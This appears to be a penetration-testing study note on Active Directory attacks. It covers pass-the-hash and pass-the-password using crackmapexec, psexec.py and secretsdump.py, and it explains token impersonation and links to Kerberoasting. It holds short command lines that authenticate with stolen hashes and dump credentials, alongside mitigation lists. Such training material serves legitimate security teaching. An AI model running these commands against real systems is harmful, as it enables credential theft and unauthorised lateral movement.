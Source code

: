

### Pass the Hash / Pass the Password

```
sudo apt install crackmapexec 

crackmapexec <IP/CIDR> -u <user> -d <domain> -p <password> 

crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth
```


```
psexec.py marvel/fcastle:Password1@<IP>

secretsdump.py marvel/fcastle:Password1@<IP>

psexec.py "frank castle":@<IP> -hashes LMHASH:LTHASH
```

---

### Pass attacke mitigations

Hard to completely prevent, but we can make it more difficult on an attacker:
- Limit account re-use:
  - Avoid re-using local admin password
  - Disable Guest and Administrator accounts
  - Limit who is a local administrator (least privilege)
- Utilize strong passwords:
  - The longer the better (>14 characters)
  - Avoid using common words
  - I like long sentences
- Privilege Access Management (PAM)
  - Check out/in sensitive accounts when needed
  - Automatically rotate passwords on check out and check in
  - Limits pass attacks as hash/password is strong and constantly rotated

---

### Token Impersonation

What are tokens?
- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

Two types:
- Delegate - Created for logging into a machine or using Remote Desktop
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script

https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

### Token Impersonation Mitigation

Mitigation Strategies:
- Limit user/group token creation permissions
- Account tiering
- Local admin restriction

---

### Kerberoasting 

https://medium.com/@Shorty420/kerberoasting-9108477279cc







